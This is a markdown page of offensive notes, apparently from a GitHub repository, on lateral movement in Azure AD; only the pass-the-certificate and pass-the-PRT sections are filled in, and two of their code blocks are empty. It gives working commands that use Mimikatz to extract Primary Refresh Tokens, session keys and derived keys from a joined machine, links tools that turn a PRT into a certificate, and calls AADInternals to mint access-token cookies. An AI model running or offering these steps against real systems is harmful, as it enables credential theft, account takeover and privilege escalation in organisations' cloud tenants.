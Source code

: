 # Lateral movement

* [Pass the certificate](#Pass-the-certificate)
  * [Pass the PRT](#Pass-the-PRT) 
* [Intune](#Intune)
* [Abusing dynamic groups](#Abusing-dynamic-groups)
* [Application proxy abuse](#Application-proxy-abuse)
* [Hybrid Identity](#Hybrid-Identity)
  * [Password Hash Sync (PHS) Abuse](#Password-Hash-Sync-(PHS)-Abuse)
  * [Pass Through Authentication (PTA) Abuse](#Pass-Through-Authentication-(PTA)-Abuse)
  * [Federation (ADFS)](#Federation-(ADFS))

## Pass the certificate
- To go from Azure AD machine to other Azure AD machine if the user has administrative access to other machines.

#### Check if machine is Azure AD Joined
```
dsregcmd /status
```

#### Extract PRT, Session key and Tenant ID
```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key and derived key
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

#### Request a certificate from PRT
- https://github.com/morRubin/PrtToCert
```

```

#### Use certificate to add a user with administrative privileges
- Code is modified in the lab
- https://github.com/morRubin/AzureADJoinedMachinePTC
```

```

### Pass the PRT
#### Request access token (cookie) to all applications
```
Import-Module .\AADInternals.psd1
New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SessionKey -GetNonce
```
